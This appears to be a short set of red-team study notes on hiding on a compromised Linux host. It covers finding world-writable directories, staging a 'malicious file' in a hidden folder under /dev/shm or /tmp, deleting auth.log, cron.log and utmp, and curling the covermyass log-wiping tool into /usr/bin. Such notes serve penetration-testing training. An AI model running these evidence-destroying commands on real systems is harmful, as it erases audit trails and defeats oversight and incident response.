




Red Teaming - hiding
See also Covering Tracks
chapter1. Find world Writable directories
find / -writable -type d 2>/dev/null # world-writeable folders
find / -perm -222 -type d 2>/dev/null # world-writeable folders
find / -perm -o w -type d 2>/dev/null # world-writeable folders
2. Choose a directory
not suspicious and note very often looked out by users:
◇ /dev/shm
◇ /tmp
◇
/var/tmp
3. Create Hidden Folder, where we can store the malicious file
mkdir .secretFolder
ls
ls -a
 
Delete traces
4. Delete the Hidden folder when we have finished the work
rm -rf /dev/shm/.secretFolder
5. Remove logs and evidence(after we have become sudo)
ls /var/log
rm /var/log/auth.log; rm /var/log/cron.log; rm /var/log/utmp;
6. Use a tool like
“covermyass” (
https://github.com/sundowndev/covermyass)
sudo curl -sSL https://raw.githubusercontent.com/sundowndev/covermyass/master/covermyass -o /usr/bin/covermyass
sudo chmod +x /usr/bin/covermyass
clear logs